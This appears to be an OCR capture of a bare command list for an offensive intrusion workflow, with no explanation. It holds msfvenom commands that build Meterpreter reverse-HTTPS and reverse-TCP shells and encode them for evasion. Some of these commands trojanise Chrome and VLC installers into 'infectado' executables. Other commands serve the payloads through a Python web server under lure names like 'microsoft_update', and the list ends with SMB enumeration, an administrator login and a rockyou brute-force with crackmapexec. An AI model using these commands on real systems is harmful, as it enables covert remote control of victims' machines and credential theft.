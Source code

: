 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f exe > trojan.exe


python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

sudo cp -r /caminho/para/conectasocial_advanced /var/www/html/

Get-NetAdapter -Physical | Where-Object {$_.Status -eq "Up"}


python3 /usr/share/doc/python3-impacket/examples/smbclient.py administrador@192.168.1.84

nmap -Pn -p 139,445 --script smb-protocols,smb-security-mode,smb2-security-mode 192.168.1.84


crackmapexec smb 192.168.1.84 -u convidado -p ""

crackmapexec smb 192.168.1.84 -u root -P /usr/share/wordlists/rockyou.txt






